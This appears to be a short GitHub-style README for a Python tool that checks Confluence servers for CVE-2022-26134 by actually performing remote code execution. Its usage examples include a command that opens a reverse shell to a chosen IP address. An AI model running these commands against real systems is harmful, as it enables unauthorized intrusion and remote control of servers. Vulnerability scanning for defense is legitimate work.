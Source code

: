 ## Scan for ConfluenceRCE CVE-2022-26134
Just a quick tool with an oversized banner, to scan if a target is vulnerable to CVE-2022-26134.
* => Tested on win/nix, python 2.7 - 3.X
* => Dependencies: argparse, requests
* => Checks are invasive- meaning RCE will be performed (but on a non-destructive way)
* Example usage-1: python confluenceRCE.py -t 127.0.0.1
* Example usage-2: python confluenceRCE.py -t 127.0.0.1:8090 (default port, if not running on 443)
* Example usage-3: python confluenceRCE.py -t 127.0.0.1 -p 8090 -c 15 (-c is timeout value in seconds)
* Example usage-4: python confluenceRCE.py -t 127.0.0.1 -s 192.168.0.1 (reverse shell, ports must be open, port choosen when spawning)
* Thats all.
